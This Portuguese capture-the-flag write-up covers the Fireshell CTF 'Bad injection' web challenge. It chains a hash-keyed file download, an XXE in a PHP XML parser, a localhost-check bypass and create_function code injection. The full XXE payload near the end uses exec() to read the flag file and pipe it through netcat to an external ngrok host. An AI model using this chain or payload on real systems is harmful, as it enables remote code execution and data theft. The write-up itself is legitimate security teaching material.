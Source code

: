# Bad injection [ [Fireshell CTF] ](https://ctftime.org/event/727)

## Levantamento de informações 

![index](https://i.imgur.com/vtZ1BiQ.png)

Acessando as 3 primeiras abas disponíveis **home**, **about** e **contact**, nada de útil nos é apresentado. Mas, acessando a aba **List**, a página nos retorna o icone de uma "imagem
corrompida" ao lado da imagem carregada.

Analisando a source desta página, é possível ver uma passagem de parâmetros:

```
download?file=files/test.txt&hash=293d05cb2ced82858519bdec71a0354b

```

eis a "imagem corrompida". Com estes parâmetros, podemos ler qualquer arquivo dentro do server. Os requisitos são:
* o path do arquivo estar exato
* o parâmetro **hash** deve conter o md5 do arquivo buscado.

![listagem-diretorios](https://i.imgur.com/kVAupWz.png)


## Exploração

Varrendo o server, é possível encontrar o arquivo **Routes.php** dentro do diretório **/app/** onde é necessária alguma entrada de solicitação http.

    ...
    ...
    ...
    
    Route::set('custom',function(){
      $handler = fopen('php://input','r');
      $data = stream_get_contents($handler);
      if(strlen($data) > 1){
        Custom::Test($data);
      }else{
        Custom::createView('Custom');
      }
    });
    ...
    ...
    ...

E o arquivo **Custom.php** em **/app/Controllers/** .

    <br />
    <b>Notice</b>:  Undefined variable: type in <b>/app/Controllers/Download.php</b> on line <b>21</b><br />
    <?php
    
    class Custom extends Controller{
      public static function Test($string){
          $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
          $test = $root->name;
          echo $test;
      }
    
    }
    
     ?>


Utilizando do XXE, também podemos retornar arquivos do servidor.

![xxe](https://i.imgur.com/5aKPJVP.png)

## Localhost bypass

no arquivo **Routes.php** citado acima, também é possível ver o seguinte trecho de código:

```
Route::set('admin',function(){
  if(!isset($_REQUEST['rss']) && !isset($_REQUES['order'])){
    Admin::createView('Admin');
  }else{
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    }else{
     echo ";(";
    }
  }
})
```

Esse trecho verifica se a solicitação vem do localhost dentro de uma estrutura condicional. Caso venha, realizada a chamda em Admin::sort.

Observando o arquivo **Admin.php** (também baixado fuçando o server), vemos que Admin::sort contém:

    usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));


que nos dá uma clara injeção de código.

---
Desta forma, precisamos utilizar do XXE fazer o bypass da verificação do localhost e logo depois fazer uma request para /Admin, que nos retorna a execução remota de código.

o árduo payload:

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://127.0.0.1/admin?rss=http://SEU_IP/file.xml&order=link.file_get_contents('http://SEU_IP/'.exec('cat'.chr(32).'/da0f72d5d79169971b62a479c34198e7'.chr(124).'/bin/nc'.chr(32).'0.tcp.ngrok.io'.chr(32).'12776'))">
    ]>
    <root><name>&xxe;</name></root>

* o arquivo **file.xml** deve ser upado no seu servidor, com um rss válido com a route e adminsort para a reques.

a saída:

![flag](https://i.imgur.com/FyBD4eq.png)

**Flag : f#{1_d0nt_kn0w_wh4t_i4m_d01ng}**

## Considerações finais

Não conseguimos matar a flag no decorrer do campeonato, mas depois de apanhar mais que saco que pancadas, a flag surgiu e com ela o aprendizado. Parabéns à equipe Fireshell por proporcionar um ótimo campeonato.


*[RSS W3schools](https://www.w3schools.com/xml/xml_rss.asp)